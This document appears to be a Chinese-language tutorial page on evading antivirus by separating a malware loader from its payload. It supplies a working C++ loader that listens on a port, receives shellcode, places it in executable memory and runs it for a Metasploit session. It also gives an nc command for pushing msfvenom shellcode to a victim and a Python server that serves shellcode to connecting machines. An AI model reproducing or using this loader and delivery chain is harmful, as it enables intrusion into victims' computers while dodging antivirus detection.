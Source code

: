 # 简单的分离免杀

## 简介

通常杀毒软件会匹配静态特征来进行恶意软件的识别，虽然现在有很多行为查杀的引擎，但个人认为杀毒软件仍旧已特征码为主，行为免杀很大程度上是监控windows api，而这些恶意软件使用的api往往都是和合法软件是一致的，这也成为了行为查杀技术的桎梏，很多恶意软件只要换个不同的编译环境，就能不被杀毒软件注意到从而绕过杀毒软件。

本文鉴于目前杀毒软件仍旧以特征库为主，将病毒代码体和执行体分离，从而规避特征免杀。

## 流程

1. 在受害者电脑上打开个侦听端口，分配可执行内存
2. 等待传入 payload
3. 连接到受害者侦听端口，将 shellcode 作为二进制数据发送
4. 受害者将 shellcode 拷入可执行内存
5. 执行 shellcode，由 metasploit 接管 session

## 代码实现

给出代码是监听端口等待连接的，也可以做简单修改做成反向连接的。

```text
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")
int main(void)
{
LPWSADATA wsaData = new WSAData();
SOCKET listenSocket = INVALID_SOCKET;
SOCKET ClientSocket = INVALID_SOCKET;
CHAR bufferReceivedBytes[4096] = { 0 };
INT RecvBytes = 0;
PCSTR port = "477";
ADDRINFOA* SocketHint = new ADDRINFOA();
ADDRINFOA* AddrInfo = new ADDRINFOA();
SocketHint->ai_family = AF_INET;
SocketHint->ai_socktype = SOCK_STREAM;
SocketHint->ai_protocol = IPPROTO_TCP;
SocketHint->ai_flags = AI_PASSIVE;
WSAStartup(MAKEWORD(2, 2), wsaData);
GetAddrInfoA(NULL, port, SocketHint, &AddrInfo);
listenSocket = socket(AddrInfo->ai_family, AddrInfo->ai_socktype,
AddrInfo->ai_protocol);
bind(listenSocket, AddrInfo->ai_addr, AddrInfo->ai_addrlen);
listen(listenSocket, SOMAXCONN);
ClientSocket = accept(listenSocket, NULL, NULL);
RecvBytes = recv(ClientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes),
NULL);
LPVOID shellcode = VirtualAlloc(NULL, RecvBytes, MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
((void(*)()) shellcode)();
return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%2845%29.png)

端口已经开始侦听 我们使用 msf 生成 shellcode 并通过 nc 交付给受害者

![](../.gitbook/assets/image%20%2872%29.png)

生成一段 c 格式的 shellcode

![](../.gitbook/assets/image%20%2856%29.png)

处理一下变成一句字符串的形式

![](../.gitbook/assets/image%20%284%29.png)

```text
echo -e “shellcode-line” |nc  ip port
```

可以使用简单的python服务器传递shellcode

```text
import socket
import threading
import time  

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('127.0.0.1', 36444)) # 公网地址
    s.listen(20)
    timeout = 10
    socket.setdefaulttimeout(timeout)
    while True:
        sock, addr = s.accept()
        t = threading.Thread(target=tcplink, args=(sock, addr))
        t.start()


def tcplink(sock, addr):
    print('Start download shellcode %s:%s...' % addr)
    shellcode = b'1111111' #your shellcode
    print(len(shellcode))
    while True:
        data = sock.recv(1024)
        time.sleep(3)
        sock.send(shellcode)
        sock.close()
    print('Finish %s:%s ' % addr)


if __name__ == '__main__':
    main()
```

![](../.gitbook/assets/image%20%2862%29.png)

![](../.gitbook/assets/image%20%2826%29.png)



